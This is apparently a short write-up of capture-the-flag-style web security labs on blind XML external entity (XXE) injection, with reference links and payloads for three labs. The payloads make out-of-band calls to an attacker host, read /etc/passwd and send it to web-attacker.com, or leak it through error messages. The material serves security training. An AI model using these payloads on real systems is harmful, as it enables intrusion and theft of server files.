 Request can be like this:  
![image](https://user-images.githubusercontent.com/58632878/224696817-5c509abc-d5cd-4b69-9288-51a2f1e77547.png)  
  
Or like this:  
![image](https://user-images.githubusercontent.com/58632878/224697418-d4e723b5-16d0-43dc-93d3-98c69bd8bd3f.png)  
  
I really recommend you to use both links below, because they can adapt XXE payload, that was given you by Burp Scan.  
>https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity  
>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection


## Labs
### 1. Blind XXE with out-of-band interaction via XML parameter entities
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### 2. Exploiting blind XXE to exfiltrate data using a malicious external DTD
>Observe Submit feedback, paste xml file with the next content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
>Check /product/stock page and paste the next XXE payload:
```
<!DOCTYPE stockcheck [<!ENTITY % io7ju SYSTEM "http://localhost:44901/feedback/screenshots/7.xml">%io7ju; ]>
```

### 3. Exploiting blind XXE to retrieve data via error messages
>Observe Submit feedback, paste xml file with the next content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
>Check /product/stock page and paste the next XXE payload:
```
<?xml version="1.0" encoding="UTF-8" standalone='no'?><!DOCTYPE stockcheck [<!ENTITY % io7ju SYSTEM "http://localhost:41717/feedback/screenshots/1.xml">%io7ju; ]>
```
>This will referrer to localhost with our previously created file and get content of /etc/passwd via error message.

